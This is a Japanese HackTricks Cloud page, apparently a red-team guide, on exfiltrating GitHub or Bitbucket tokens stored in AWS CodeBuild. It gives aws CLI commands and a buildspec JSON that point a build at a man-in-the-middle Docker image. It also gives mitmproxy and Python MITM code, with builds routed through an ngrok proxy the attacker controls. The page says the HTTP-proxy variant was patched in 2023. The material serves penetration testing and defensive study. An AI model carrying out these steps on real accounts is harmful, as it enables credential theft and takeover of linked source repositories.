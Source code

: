 # AWS Codebuild - トークンの漏洩

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksのスウェグ**](https://peass.creator-spring.com)を手に入れる
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
- **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出**してください。

</details>

## Github/Bitbucketで構成されたトークンの回復

最初に、漏洩させる可能性のあるソース資格情報が構成されていないかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージを介して

例えば、GitHubへの認証がアカウントに設定されていることがわかった場合、プロジェクトのビルドを実行するためにCodeBuildが特定のDockerイメージを使用するように設定することで、そのアクセス（GHトークンまたはOAuthトークン）を**外部に持ち出す**ことができます。

この目的のために、新しいCodeBuildプロジェクトを作成するか、既存のプロジェクトの**環境を変更**して**Dockerイメージ**を設定できます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**`https_proxy`**、**`http_proxy`**、**`SSL_CERT_FILE`**の**環境変数を設定**します。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼できます。

1. **独自のDocker MitMイメージを作成してアップロード**
   * リポジトリの手順に従ってプロキシIPアドレスを設定し、SSL証明書を設定して**Dockerイメージをビルド**します。
   * メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
   * `ngrok tcp 4444`のように**`ngrok`**を使用してプロキシをホストに設定できます。
   * Dockerイメージをビルドしたら、それを**パブリックリポジトリ**（Dockerhub、ECRなど）に**アップロード**します。
2. **環境を設定**
   * **新しいCodeBuildプロジェクト**を作成するか、既存のプロジェクトの環境を**変更**します。
   * プロジェクトが**以前に生成されたDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **ホストでMitMプロキシを設定**

* **Githubリポジトリ**で指示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxyのバージョンは9.0.1**を使用しましたが、バージョン10では動作しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行して資格情報をキャプチャする**

* **Authorization**ヘッダーでトークンを見ることができます：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

これは、aws cliから次のような方法で行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週（おそらく金曜日）にAWSによって修正されました。したがって、攻撃者はこれをもう悪用できません :)**
{% endhint %}

**CodeBuildで昇格された権限を持つ攻撃者は、構成されたGithub/Bitbucketトークンを漏洩**することができます。また、OAuth経由で権限が構成されている場合は、**コードにアクセスするために使用される一時的なOAuthトークン**を漏洩させることができます。

* 攻撃者は、CodeBuildプロジェクトに環境変数**http\_proxy**と**https\_proxy**を追加し、それを自分のマシンを指すように設定できます（例: `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）が指すポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**資格情報**がmitmポートに**クリアテキスト**（base64）で送信されます：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者は自分のマシンからトークンを使用し、それが持つすべての特権をリストアップし、CodeBuildサービスを直接使用するよりも簡単に（悪用）することができます。
{% endhint %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>でAWSハッキングをゼロからヒーローまで学ぶ</summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**か**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>
